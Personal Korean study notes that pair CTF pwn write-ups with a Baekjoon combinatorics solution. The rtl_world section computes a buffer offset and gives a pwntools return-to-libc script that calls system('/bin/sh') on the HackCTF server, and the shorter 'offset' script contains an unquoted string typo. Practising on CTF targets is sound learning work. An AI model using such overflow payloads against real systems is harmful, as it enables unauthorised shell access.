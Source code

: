 # 개인공부
## python and pwn

## hackctf: offset      

from pwn import *

p = remote("ctf.j0n9hyun.xyz",3007)

p.recvuntil("Which function would you like to call?")

pay = A*30
pay += p32(0xD8)

p.sendline(pay)
p.interactive()


## 백준: 14889. 스타트와 링크

>> 상황에 따라 조합함수 , 수열함수 이용하기


풀이


from itertools import combinations # 조합 함수

>> itertools 모듈 - combination 함수

>> itertools - combinations_with_replacement 함수

N = int(input())        # 반복 횟수 받기

able_borad = []     

for _ in range(N):
    able_borad.append(list(map(int,input().split())))

number_list = [i for i in range(N)]     # 멤버들의 총 리스트

res = float('inf')    # 능력치 차이 최소값


'''
>>> float('inf')          # 양의 무한대
inf

>>> float('-inf')         # 음의 무한대
-inf

>>> 1e100 < float('inf')  # 무한대는 다른 모든 실수보다 크다
True

>>> 1e309                 # 너무 큰 실수는 무한대로 평가된다
inf

>>> 1e-324                # 너무 0에 가까운 실수는 0으로 평가된다
0.0

'''

def solve():
    global res

    # 조합함수를 이용해서 각각 후보자를 생성
    for c in combinations(number_list, N//2):
        # 선택된 후보와 나머지

        start_number = list(c)      
        # number_list 부터 N//2 까지 반복 하면서
        # 나온 c는 비교하기위한 첫번쨰 숫자이고

        link_number = list(set(number_list) - set(c))
        # 링크 넘버는 두번쨰 숫자이다.
        # 리스트에서 스타트리스트와 겹치는 부분만 제거해주면 된다.


        # 점수 비교 2명씩
        start_com = list(combinations(start_number,2))
        # 위의 만들어놨던 스타트 멤버와 링크멤버를 서로 비교
        link_com = list(combinations(link_number,2))

        # 점수 구하기
        start_sum = 0   # 점수 합 변수
        for x,y in start_com:
            start_sum += (able_borad[x][y] + able_borad[y][x])
        # x와 y를 받고 합에 (x,y), (y,x) 를 더해준다.

        link_sum = 0    # 점수 합 변수
        for x,y in link_com:
            link_sum += (able_borad[x][y] + able_borad[y][x])
        # x와 y를 받고 합에 (x,y), (y,x) 를 더해준다.


        # 차이를 구하는거면 함수 abs 를 사용한다.
        # 왜냐하면 음수가 나올수있기떄문에
        # abs >> 절댓값 나오게하는 함수

        if (res > abs(start_sum - link_sum)):
            res = abs(start_sum-link_sum)
            # 계속해서 res와 비교해서 최소값 도출하기
solve()
print(res)

## RTL_world 풀이

checksec 입력시

CANARY : disabled

FORTIFY : disabled

NX : ENABLED

PIE : disabled

RELRO : Partial



이므로 이번문제 역시 yes_or_no 처럼 쉘코드 사용이 불가능하다.
또한 eax 이기떄문에 32비트이다.

일단 바이너리 코드를 살펴보자.

코드

이하 생략 ( 상단 choichanghyeok 이동 / 레벨 문제 / hackCTF문제 / RTL 풀이 )

개인적인 생각으로 case 5: 의 read() 함수를 공격해  bof 를 일으킬수 있을거같다.

read@plt ( call ) 까지의 버퍼는 0x8c  ( 140 ) 

총 길이는 140 + 4(SFP) +  4(RET) = 148 

따라서 페이로드는

버퍼(144) + system 주소 + RET(4) + /bin/sh 주소



system 주소는 IDA 에 보면 system 주소가 있거나 해당 리눅스 gdb info func 명령어를 이용해
알수있다.

system 주소 : 0x080485b0

/bin/sh 주소 : 0x8048eb1

( /bin/sh 주소는 b*main 을 돌리고 실행한뒤 find "/bin/sh" 를 하면 찾을수있다. 주소가 2개나오는데
rtl_world 주소를 사용하면 된다.)


따라서 페이로드 작성 @@

## hackctf: rtl_world
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3010)

p.recv(1024)

p.sendline('5')

p.recvuntil("[Attack] > ")

system_addr = p32(0x080485b0)

bin_addr = p32(0x8048eb1)

payload = "A"*144

payload += system_addr

payload += "A"*4

payload += bin_addr

p.sendline(payload)

p.interactive()


( 파일명 vi rtl.py ) 로 생성

python rtl.py 하면

cat flag 를 입력하면 flag 가 나온다.
